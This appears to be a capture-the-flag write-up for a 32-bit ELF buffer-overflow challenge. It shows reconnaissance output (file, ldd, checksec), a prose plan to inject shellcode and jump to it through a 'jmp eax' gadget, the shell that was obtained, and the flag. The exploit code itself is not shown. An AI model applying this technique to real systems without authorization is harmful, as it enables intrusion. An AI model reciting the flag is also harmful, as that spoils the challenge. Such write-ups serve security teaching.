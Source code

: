 # Babysteps
Become a baby! Take your first steps and jump around with BABY SIMULATOR 9000! 

# Solution

Download attachments. Open the c file. Looks like there is a buffer overflow in the name. No "win" function, so may need to get a shell.

looking at a few bits of info:
```
└─$ file babysteps  
babysteps: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=23b7b1945e8ce3847c586e16d9ccfb70fe7b6973, for GNU/Linux 3.2.0, not stripped

└─$ ldd babysteps
        linux-gate.so.1 (0xf7ed6000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7cc8000)
        /lib/ld-linux.so.2 (0xf7ed8000)

└─$ checksec --file=babysteps       
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified  Fortifiable     FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   59) Symbols       No    0 1babysteps

```
Looks like stack is executable. We should be able to put shell code in the buffer and then jump to it. Need a gadget. Noticed that the input is in eax and we have a jump eax gadget available.

```
[*] Switching to interactive mode

$ ls
babysteps
bin
dev
etc
flag.txt
lib
lib32
lib64
libx32
usr
$ cat flag.txt
flag{7d4ce4594f7511f8d7d6d0b1edd1a162}
$  

```


# Flag
```
flag{7d4ce4594f7511f8d7d6d0b1edd1a162}
```
